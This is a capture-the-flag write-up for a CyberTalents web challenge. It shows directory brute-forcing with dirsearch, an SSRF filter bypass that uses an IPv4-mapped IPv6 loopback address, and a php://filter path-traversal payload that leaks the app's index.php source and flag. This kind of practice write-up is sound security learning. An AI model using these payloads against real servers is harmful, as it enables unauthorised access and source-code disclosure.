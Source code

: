 # Solve screenshot
#### https://cybertalents.com/challenges/web/screenshot

![alt text](images/image.png)
### Run Directory bruteforce
`dirsearch -u http://wcamxwl32pue3e6mmrdzlj8byvl9j6zqdkgxu639-web.cybertalentslabs.com -x 403,404`
*you can find the output in [Directories.txt](Directories.txt)*

![alt text](images/image-1.png)

![alt text](images/image-2.png)

### Try change api to 127.0.0.1

![alt text](images/image-3.png)

### Try to bypass the filter
##### IPv6/IPv4 Address Embedding
`http://wcamxwl32pue3e6mmrdzlj8byvl9j6zqdkgxu639-web.cybertalentslabs.com/?url=http%3A%2F%2Fgoogle.com&server=http://[0:0:0:0:0:ffff:127.0.0.1]`
![alt text](images/image-4.png)

### Analyze with burp 
Each request is converted to an jpg images/image in /thumbs directory
![alt text](images/image-5.png)
Also in the page source code
![alt text](images/image-6.png)

### Try to read the source code 
```php
php://filter/convert.base64-encode/resource=internalapi1.local/../index.php
```

`http://wcamxwl32pue3e6mmrdzlj8byvl9j6zqdkgxu639-web.cybertalentslabs.com/?url=../index.php&server=php://filter/convert.base64-encode/resource=internalapi4.local/`

View the source code 
![alt text](images/image-7.png)

`thumbs/c191cc0fd3c6fbb063e96b12c42a4e49.jpg`

Review burp

![alt text](images/image-8.png)

Base64 decode 
*you can review the source code in [index.php](index.php)*

The Flag is in the source code

>Find More on ==> github.com/MedhatHassan 
